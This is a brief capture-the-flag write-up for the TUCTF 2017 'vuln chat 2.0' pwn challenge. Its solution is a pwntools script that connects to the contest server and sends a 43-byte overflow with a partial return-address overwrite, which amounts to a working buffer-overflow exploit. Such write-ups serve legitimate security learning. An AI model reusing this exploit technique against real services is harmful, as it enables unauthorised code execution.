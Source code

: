 ```yaml
---
title: "TUCTF 2017 - vuln chat 2.0 (Pwn)"
header:
  overlay_image: /assets/images/tuctf2017/vulnchat2/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - tuctf2017
  - writeup
  - pwn
---
```


Pwnable.

## Challenge Description

#### Points

100

#### Description

```
Djinn has got some new intel for us. And I think he's giving us a second chance.
But he will only speak with you. Let's see what he's got to say.

nc vulnchat2.tuctf.com 4242
```

## Solution

```python
from pwn import *
import time

def main():
    # p = process("./vuln-chat2.0")
    p = connect("vulnchat2.tuctf.com", 4242)

    p.sendline("A")

    time.sleep(1)
    p.sendline("A"*43 + "\x72\x86")

    p.interactive()

if __name__ == '__main__':
    main()
```
